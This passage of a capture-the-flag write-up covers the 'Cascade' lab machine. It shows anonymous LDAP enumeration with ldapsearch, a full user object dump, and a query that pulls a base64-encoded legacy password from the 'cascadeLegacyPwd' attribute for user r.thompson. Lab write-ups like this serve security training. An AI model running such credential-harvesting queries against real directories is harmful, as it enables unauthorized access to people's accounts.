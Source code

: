 with this info i would bet good money our target is going to be s.smith aka steve smith lol
lets run this for each user:
```
ldapsearch -x -H ldap://10.10.10.182 -b "DC=cascade,DC=local" \
  "(sAMAccountName=<username from users.txt>)" distinguishedName cn displayName sAMAccountName -LLL
```
```
dn: CN=Ryan Thompson,OU=Users,OU=UK,DC=cascade,DC=local
objectClass: top
objectClass: person
objectClass: organizationalPerson
objectClass: user
cn: Ryan Thompson
sn: Thompson
givenName: Ryan
distinguishedName: CN=Ryan Thompson,OU=Users,OU=UK,DC=cascade,DC=local
instanceType: 4
whenCreated: 20200109193126.0Z
whenChanged: 20200323112031.0Z
displayName: Ryan Thompson
uSNCreated: 24610
memberOf: CN=IT,OU=Groups,OU=UK,DC=cascade,DC=local
uSNChanged: 295010
name: Ryan Thompson
objectGUID:: LfpD6qngUkupEy9bFXBBjA==
userAccountControl: 66048
badPwdCount: 0
codePage: 0
countryCode: 0
badPasswordTime: 132247339091081169
lastLogoff: 0
lastLogon: 132247339125713230
pwdLastSet: 132230718862636251
primaryGroupID: 513
objectSid:: AQUAAAAAAAUVAAAAMvuhxgsd8Uf1yHJFVQQAAA==
accountExpires: 9223372036854775807
logonCount: 2
sAMAccountName: r.thompson
sAMAccountType: 805306368
userPrincipalName: r.thompson@cascade.local
objectCategory: CN=Person,CN=Schema,CN=Configuration,DC=cascade,DC=local
dSCorePropagationData: 20200126183918.0Z
dSCorePropagationData: 20200119174753.0Z
dSCorePropagationData: 20200119174719.0Z
dSCorePropagationData: 20200119174508.0Z
dSCorePropagationData: 16010101000000.0Z
lastLogonTimestamp: 132294360317419816
msDS-SupportedEncryptionTypes: 0
cascadeLegacyPwd: clk0bjVldmE=
```
Could have also found the field cascaseLegacyPwd and ran below but ultimately have to run the above foreach user:
```
ldapsearch -x -H ldap://10.10.10.182 -b "DC=cascade,DC=local" \
  "(&(objectCategory=person)(sAMAccountName=<user>))" cascadeLegacyPwd -LLL
  
  or easier way:
  ldapsearch -x -H ldap://10.10.10.182 -b "DC=cascade,DC=local" "(cascadeLegacyPwd=*)" cascadeLegacyPwd sAMAccountName -LLL
```
```
dn: CN=Ryan Thompson,OU=Users,OU=UK,DC=cascade,DC=local
cascadeLegacyPwd: clk0bjVldmE=
```
BUT moving on....
